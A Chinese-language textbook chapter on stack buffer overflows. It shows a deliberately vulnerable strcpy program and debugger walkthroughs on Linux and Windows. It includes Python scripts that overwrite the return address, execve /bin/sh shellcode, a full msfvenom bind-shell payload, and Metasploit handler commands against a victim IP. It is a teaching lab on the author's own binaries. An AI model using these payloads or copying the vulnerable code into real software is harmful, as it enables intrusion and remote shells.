# 六、缓冲区溢出攻击

在本章中，我们将更深入地研究缓冲区溢出攻击。我们将了解如何更改执行流，并了解注入 Shellcode 的非常简单的方法。我们开始好吗？

# Linux 上的堆栈溢出

现在，我们将了解什么是缓冲区溢出，我们将了解如何使用易受攻击的源代码更改执行流。

我们将使用以下代码：

```
int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}
void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

好的，让我们稍微调整一下，做一些更有用的事情：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}

void letsprint()
{
    printf("Hey!! , you succeeded\n");
    exit(0);
}

void main (int argc, char *argv[])
{
   int local_variable = 1;
   copytobuffer(argv[1]);
   exit(0);
}
```

在这里，我们添加了一个新的函数`letsprint`，其中包含`printf`，由于该函数从未在`main`函数中调用过，因此将永远不会执行该函数。那么，如果我们使用这个缓冲区溢出来控制执行并更改流来执行这个函数呢？

现在，让我们编译它并在我们的 Ubuntu 机器上运行：

```
$ gcc -fno-stack-protector -z execstack buffer.c -o buffer
$ ./buffer aaaa
```

在以下屏幕截图中可以看到前面命令的输出：


正如你所看到的，什么也没发生。让我们尝试造成溢出：

```
 $ ./buffer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

在以下屏幕截图中可以看到前面命令的输出：


好的，现在让我们尝试在 GDB 中获取该错误：

```
$ gdb ./buffer
```

然后，我们在`main`函数处设置一个断点，暂停`main`函数的执行：

```
$ break main
```

现在，节目开始了。它将在`main`功能处暂停。继续使用 24 个`a`字符作为输入：

```
$ run aaaaaaaaaaaaaaaaaaaaaaaa
```

然后，代码将在`main`处暂停：



点击*C*和*输入*键继续执行：


程序按预期崩溃，所以让我们尝试输入 26 个`a`字符：

```
$ run aaaaaaaaaaaaaaaaaaaaaaaaaa
```

您可以使用 Python 生成输入，而不是计算字符：

```
#!/usr/bin/python

buffer = ''
buffer += 'a'*26
f = open("input.txt", "w")
f.write(buffer)
```

然后，授予其执行权限并执行：

```
$ chmod +x exploit.py
$ ./exploit.py
```

从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`处暂停：



点击*C*后*进入*继续执行：


您注意到`?? ()`中的错误`0x0000000000006161`了吗？从前面的屏幕截图来看，程序不知道`0x0000000000006161`在哪里，而`6161`在`aa`在哪里，这意味着我们能够向 RIP 寄存器中注入 2 个字节，所以我让它在 24 个字符后启动。别担心，我们将在下一章讨论这个问题。

让我们通过使用`a`中的 24 个字符和`b`中的 6 个字符来确认：

```
$ run aaaaaaaaaaaaaaaaaaaaaaaabbbbbb
```

我们还可以使用 Python：

```
#!/usr/bin/python

buffer = ''
buffer += 'a'*24
buffer += 'b'*6
f = open("input.txt", "w")
f.write(buffer)
```

然后，执行攻击以生成新输入：

```
$ ./exploit
```

之后，从 GDB 内部运行以下操作：

```
$ run $(cat input.txt)
```

然后，代码将到达断点：


点击*C*后*进入*继续：



现在，通过查看错误，我们可以在其中看到注入的`b`字符。在这一点上，我们做得很好。现在我们知道了我们的注入形式，让我们尝试使用`disassemble`命令执行`letsprint`函数：

```
$ disassemble letsprint
```

在以下屏幕截图中可以看到前面命令的输出：



我们在`letsprint`函数中得到了第一条指令，`push rbp`的地址为`0x00000000004005e3`，真正的地址就是我们在这里需要的地址；我们也可以通过`print`命令获取地址：

```
$ print letsprint
```

在以下屏幕截图中可以看到前面命令的输出：


现在我们有了地址，让我们尝试使用 Python 构建我们的漏洞，因为我们无法直接传递地址：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += 'a'*24
buffer += pack("<Q", 0x0000004005e3)
f = open("input.txt", "w")
f.write(buffer)
```

然后，我们执行它以生成新的输入：

```
$ ./exploit
```

现在，从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将到达断点：



点击*C*，然后*进入*继续：



我们做到了！现在，让我们通过 shell 而不是 GDB 来确认：

```
$ ./buffer $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：


是的，我们改变了执行流程，执行了一些不应该执行的东西！

让我们尝试另一个负载只是为了好玩。我们将在此处使用我们的代码：

```
int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

但是我们将添加上一章中的`execve`系统调用来运行`/bin/sh`：

```
unsigned char code[] =
 "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
 }
```

让我们把它们放在一起：

```
 #include <stdio.h>
 #include <string.h>
 #include <stdlib.h>

 void shell_pwn()
 {
    char code[] =
     "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
     \x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
 }
 int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

 void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

而且，这里`shell_pwn`永远不会被执行，因为我们从未在这里调用过它，但现在我们知道如何执行它。首先，让我们编译它：

```
 $ gcc -fno-stack-protector -z execstack exec.c -o exec
```

然后，在 GDB 中打开我们的代码：

```
$ gdb ./exec
```

然后在`main`函数处设置断点：

```
$ break main
```

好的，现在让我们准备利用漏洞来确认 RIP 寄存器的准确位置：

```
#!/usr/bin/python

 buffer = ''
 buffer += 'a'*24
 buffer += 'b'*6
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行我们的攻击：

```
$ ./exploit.py
```

现在，从 GDB 运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将在`main`函数处命中断点：


点击*C*，然后*进入*继续：


是的，它在抱怨我们的 6 个`b`角色`0x0000626262626262`，所以现在我们走上了正确的道路。现在，让我们查找 Shellcode 的地址：

```
$ disassemble shell_pwn
```

在以下屏幕截图中可以看到前面命令的输出：


第一条指令的地址是`0x000000000040060d`。此外，我们还可以使用`print`功能：

```
$ print shell_pwn
```

在以下屏幕截图中可以看到前面命令的输出：


完美的现在，让我们构建我们的最终开发：

```
#!/usr/bin/python
 from struct import *

 buffer = ''
 buffer += 'a'*24
 buffer += pack("<Q", 0x00000040060d)
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行它：

```
$ ./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`功能处暂停；点击*C*继续：



现在我们有了壳；我们试着用`$ cat /etc/issue`来执行它：


让我们确认一下，使用 bash shell 而不是 GDB：

```
$ ./exec $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：


让我们尝试执行一些操作：


成功了！

# Windows 上的堆栈溢出

现在，让我们尝试使用前面的易受攻击代码来攻击 Windows 7 上的堆栈溢出。我们甚至不需要在 Windows 上禁用任何安全机制，例如**地址空间布局随机化**（**ASLR**）或**数据****执行预防**（**DEP**）；我们将在[第 12 章](12.html#3DLGM0-5bf3e26315164e77bbeecc4f75207114)、*检测和预防*中讨论安全机制——我们开始吧？

让我们使用 code:：Blocks 尝试易受攻击的代码：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int copytobuffer(char* input)
{
     char buffer[15];
     strcpy (buffer,input);
     return 0;
}

void letsprint()
{
    printf("Hey!! , you succeeded\n");
    exit(0);
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

只需打开 Code:：Blocks 并导航到文件|新建|空文件。

然后，编写易受攻击的代码。转到文件|保存文件，然后将其另存为`buffer2.c`：



现在，让我们通过导航到 build | build 来构建代码。

让我们看看幕后发生了什么；以管理员身份打开调试器。

然后，进入文件|打开并选择`buffer2`。在这里，输入我们的论点为`aaaaaaaaaaaaaaaaaaaaaaaaaaabbbb`（27 个字符的`a`和 4 个字符的`b`；稍后我们将知道如何获得有效载荷的长度：


现在，我们可以看到我们的四个窗口。点击跑步程序一次。之后，我们就进入了我们计划的起点：


现在，再次点击 run 程序并注意状态栏：


程序崩溃，在执行`62626262`时给了我们访问冲突，这是我们 ASCII 中的字符`b`，最重要的是要注意寄存器（FPU）窗口：



指令指针指向`b`字符`62626262`，太完美了！

现在，让我们尝试定位我们的函数。从调试程序导航到调试|重新启动。

现在我们重新开始；点击运行程序一次，然后右键单击反汇编窗口并导航到搜索|所有引用的文本字符串：



在这里，我们正在搜索我们的字符串，它位于`letsprint`函数`Hey!! , you succeeded\n`中。

将弹出一个新窗口：


第三个是我们的字符串，但由于`exit(0)`函数的原因，它不可读。您可以在不使用`exit(0)`的情况下编译另一个版本并执行相同的步骤来确保，您将能够读取我们的字符串。

这里的地址不是固定的，你可能会得到一个不同的地址。

双击我们的字符串，然后调试器将精确地将您设置为地址为`0x00401367`的字符串：


实际上，我们不需要字符串，但需要定位`letsprint`函数。继续上升，直到到达上一个函数（`RETN`指令）的末尾。然后，下一条指令将启动`letsprint`功能：



就在那里！地址`0x0040135f`应该是`letsprint`功能的开始。现在，让我们确认一下。打开 IDLE（Python GUI）并导航到文件|新窗口：


在新窗口中，编写我们的漏洞：

```
#!/usr/bin/python
from struct import *
buffer = ''
buffer += 'a'*27
buffer += pack("<Q", 0x0040135f)
f = open("input.txt", "w")
f.write(buffer)
```

然后保存为`exploit.py`：



单击空闲窗口上的 Run，将在当前工作目录中生成一个新文件`input.txt`。

打开`input.txt`文件：


这是我们的有效载荷；复制输出文件的内容。然后，导航到文件|打开，返回到调试器，然后将有效负载粘贴到参数中并选择`buffer2`：



然后，启动免疫调试器：



现在，点击跑步程序；然后，它将在程序入口点暂停：


现在，再次点击 run 程序：


程序正常退出，退出代码为`0`。现在，让我们看一下免疫力的 CLI：



成功了！让我们看一下堆栈窗口：


请注意，`a`字符被注入堆栈中，`letsprint`地址被正确注入。

现在，让我们尝试注入 Shellcode，而不是使用`letsprint`函数，使用 Metasploit 为 Windows 生成 Shellcode：

```
$ msfvenom -p windows/shell_bind_tcp -b'\x00\x0A\x0D' -f c
```

在以下屏幕截图中可以看到前面命令的输出：


我们可以在使用前测试此 Shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

然后，构建并运行它：


现在，它正在等待我们的连接。从我们的攻击机器启动 Metasploit：

```
$ msfconsole
```

然后，选择要连接到受害计算机的处理程序：

```
 $ use exploit/multi/handler
```

现在，选择我们的有效载荷，即`windows/shell_bind_tcp`：

```
$ set payload windows/shell_bind_tcp
```

然后，设置受害机器的 IP 地址：


现在，设置 rhost：

```
$ set rhost 192.168.129.128
```

那么，让我们开始：

```
$ run
```

在以下屏幕截图中可以看到前面命令的输出：


现在，会话从`session 1`开始：

```
$ session 1
```

在以下屏幕截图中可以看到前面命令的输出：


我们现在在受害者的机器里。退出此会话，让我们回到代码。因此，我们的最终代码应该如下所示：

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int shell_pwn()
{
unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}

int copytobuffer(char* input)
{
    char buffer[15];
    strcpy (buffer,input);
    return 0;
}

void main (int argc, char *argv[])
{
    int local_variable = 1;
    copytobuffer(argv[1]);
    exit(0);
}
```

现在，构建它，让我们在调试器中运行它，以查找`shell_pwn`函数的地址。以管理员身份启动免疫调试器，并使用所需的任何参数选择我们的新代码：


然后，点击 run 程序一次。现在，我们正处于该计划的切入点：


右键单击主屏幕并导航至搜索|所有引用的文本字符串：


你看到`Shellcode Length`了吗？这是`shell_pwn`函数中的一个字符串；现在双击它：


程序给我们设定了`Shellcode Length`字符串的确切位置。现在，让我们继续，直到找到函数的开始地址：


地址是`0x00401340`。现在，让我们设置攻击代码：

```
#!/usr/bin/python
 from struct import *
 buffer = ''
 buffer += 'a'*27
 buffer += pack("<Q", 0x00401340)
 f = open("input.txt", "w")
 f.write(buffer)
```

现在，运行漏洞代码更新`input.txt`；然后，打开`input.txt`：


然后，复制它的内容。返回调试器并再次打开程序并粘贴有效负载：


然后，点击跑步程序两次。代码仍在运行：



另外，请查看状态栏：


我们的 Shellcode 正在运行，正在等待连接。让我们回到攻击机器，设置处理程序以连接到受害者机器：

```
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/shell_bind_tcp
$ set rhost 192.168.129.128
$ run
```

在以下屏幕截图中可以看到前面命令的输出：


已在`session 2`上建立连接：

```
 $ session 2
```

在以下屏幕截图中可以看到前面命令的输出：


成功了！

# 总结

至此，我们了解了缓冲区溢出攻击在 Linux 和 Windows 上的工作原理。此外，我们知道如何利用堆栈溢出。

在下一章中，我们将讨论更多的技术，例如如何定位和控制指令指针，如何找到有效负载的位置，以及更多的缓冲区溢出攻击技术。